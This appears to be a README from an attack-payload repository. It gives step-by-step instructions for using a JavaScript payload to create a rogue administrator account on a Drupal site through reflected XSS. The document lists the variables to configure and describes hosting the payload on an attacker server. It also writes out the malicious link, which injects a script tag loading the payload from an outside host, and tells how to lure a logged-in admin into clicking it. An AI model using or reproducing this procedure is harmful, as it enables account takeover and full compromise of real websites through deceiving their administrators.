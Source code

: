 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccDrupal.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: no password requirements)

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target Drupal site using specified credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Drupal_-_create_new_admin_-_1-1.png)
